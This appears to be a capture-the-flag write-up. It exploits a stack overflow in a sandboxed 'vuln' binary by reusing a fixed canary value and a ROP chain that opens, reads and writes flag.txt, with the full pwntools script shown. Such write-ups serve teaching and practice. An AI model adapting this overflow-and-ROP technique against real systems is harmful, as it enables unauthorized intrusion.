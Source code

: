 ![image](https://user-images.githubusercontent.com/31349426/253974259-7ba7da34-2620-49fa-b390-cefc089ef597.png)

I've found the interesting thing that the stack canary always equals to `0x6161616161616100`, the vuln's text address is `0x7fffb7dd7000` and the libc's text address is `0x7fffb7dfd000`.

Because `rootfs` only contains `bin`, `lib` and `flag.txt`, so I will write a ROPchain to `orw` flag.txt.

```python
from pwn import *
from time import sleep

context.binary = e = ELF("./bin/vuln")
libc = ELF("./lib/libc.so.6")
gs="""
"""
def start():
    if args.LOCAL:
        p = process(["python","sandbox.py","./bin/vuln"])
        # if args.GDB:
        #     gdb.attach(p,gdbscript=gs)
        #     pause()
    elif args.REMOTE:
        p=remote(args.HOST,int(args.PORT))
    return p

p = start()
canary = 0x6161616161616100
shellcode = asm(shellcraft.cat("flag.txt",fd=1))
e.address = 0x7fffb7dd6000
libc.address = 0x7fffb7ddb000

rdi_ret = e.address+0x00000000000012a3
rsi_ret = libc.address+0x000000000002601f
rdx_ret = libc.address+0x0000000000142c92
_bss = 0x7fffb7dda000
pause()
p.sendline(b"A"*0x108+p64(canary)+p64(0)+
        p64(rdi_ret)+p64(0)+
        p64(rsi_ret)+p64(_bss)+
        p64(rdx_ret)+p64(0x100)+p64(libc.sym.read)+

        p64(rdi_ret)+p64(_bss)+
        p64(rsi_ret)+p64(0)+
        p64(libc.sym.open)+

        p64(rdi_ret)+p64(3)+
        p64(rsi_ret)+p64(_bss)+
        p64(rdx_ret)+p64(0x100)+p64(libc.sym.read)+

        p64(rdi_ret)+p64(1)+
        p64(rsi_ret)+p64(_bss)+
        p64(rdx_ret)+p64(0x100)+p64(libc.sym.write)
)
pause()
p.sendline(b"flag.txt\0")
p.interactive()
```
![image](https://user-images.githubusercontent.com/31349426/253975476-735406ed-87b7-45e7-9642-514808a1b440.png)
